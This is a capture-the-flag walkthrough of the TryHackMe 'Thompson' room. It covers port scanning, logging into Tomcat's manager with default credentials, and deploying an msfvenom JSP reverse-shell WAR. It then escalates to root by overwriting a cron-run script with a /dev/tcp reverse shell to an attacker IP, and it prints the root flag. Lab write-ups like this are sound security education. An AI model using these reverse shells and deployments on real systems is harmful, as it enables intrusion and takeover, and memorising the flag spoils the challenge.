

Thompson (TryHackMe) — Logged into Tomcat using default credentials, uploaded/executed a WAR to get a shell, and escalated by modifying a file used by a cronjob.

# **Recon**

Scan the ports and services.

```jsx
└─$ nmap -sC -sV 10.201.22.81     
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-14 18:54 +06
Nmap scan report for 10.201.22.81
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.36 seconds
```

From the Nmap scan, we identified three open ports: `22/tcp (SSH)`, `8009/tcp (Apache JServ)`, and `8080/tcp (HTTP)`. We then opened port 8080 in the browser and accessed the **Manager App**.



When the **Manager App** is selected, a pop-up appears requesting the user to log in with the necessary credentials. in this URL [Manager App Login](http://10.201.22.81:8080/manager/html)


When you cancel the authentication required pop-up, you will get the credentials within **401 unauthorized** page.

**username**: `tomcat`

**passsword**: `s3cret`


# Exploit

Before attempting to log in, I searched online and discovered a published exploit for this service: **CVE-2017-12617** (the “WAR backdoor”). There are numerous proof-of-concepts available. To leverage the exploit, you must have the Manager page login credentials.


 let’s upload the reverse shell

```jsx
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<tunnel IP> LPORT=4444  -f war > shell.war
```


use open up the netcat listener to connect.

```jsx
rlwrap nc -lvnp 4444
```


Now, upload the reverse shell (revshell) and deploy it.


 Click on the deployed file to open a shell session.


# Privilege Escalation

the screenshot, we can observe two more files. Let’s take a closer look at `id.sh` and `test.txt`.


Normally, the `id.sh` script runs as the root user. Interestingly, it also processes the `test.txt` file. Next, we will inspect the crontab.


1. **Overwrite `id.sh` to get a root shell**

```jsx
echo "sh -i >& /dev/tcp/10.17.68.220/53 0>&1" > id.sh
```

- This **replaces** the original `id.sh` script with a reverse shell.
- `sh -i` → starts an interactive shell.
- `>& /dev/tcp/10.17.68.220/53` → connects the shell to your attacking machine IP and port.
- `0>&1` → redirects input and output so you can control the shell.


Start a listener on your machine

```jsx
nc -lvnp 53
```

- Waits for the target machine to connect back.
- Once the connection happens, you’ll have a **root shell**.


root.txt flag: **`d89d5391984c0450a95497153ae7ca3a`**

# Summary

- Logged into Tomcat with default credentials.
- Uploaded a reverse shell via the WAR backdoor exploit.
- Gained shell access as the Tomcat user.
- Escalated privileges to root by modifying a cron-executed script.
- Captured the root flag: d89d5391984c0450a95497153ae7ca3a
